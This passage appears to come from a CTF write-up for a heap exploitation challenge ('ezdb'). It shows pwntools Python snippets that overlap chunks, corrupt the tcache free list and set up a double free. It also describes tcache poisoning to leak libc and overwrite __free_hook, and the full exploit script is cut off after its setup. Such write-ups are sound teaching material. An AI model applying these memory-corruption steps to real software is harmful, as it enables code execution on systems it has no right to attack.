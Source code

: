 Now it is easier because 0x30-chunk is inside chunk0. We can free 0x30-chunk and corrupt the tcache link-list.

```python
buf = b'0'*(0x70)+p64(0)+p64(0x31)
delete(0)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])
l = add([(1,  0x20, b'T'*0x20)])

delete(l)
buf = b'0'*(0x70)+p64(0)+p64(0x31)+p64(0)+p64(0)
delete(0)
add([(0,  0x500, buf.ljust(0x500, b'\0'))])

edit(l, l, 0x38, b'_'*0x38)
```

![alt text](../assets/img/image-9.png)

Clear the fd so that we can double free 0x30-chunk without making the process abort.

![alt text](../assets/img/image-10.png)

We can see the Str list here, just tcache poisoning to change a `Str` object point to a `got` pointer so we can leak libc, and after that, tcache poisoning again to overwrite `__free_hook`.

Script:

```python
#!/usr/bin/env python
from pwn import *
from time import sleep

context.binary = e = ELF("ezdb_patched")
libc = e.libc

gs = """
ida_connect
# b add
# b del
# b reEdit
b *0x040171A
b system
"""
```
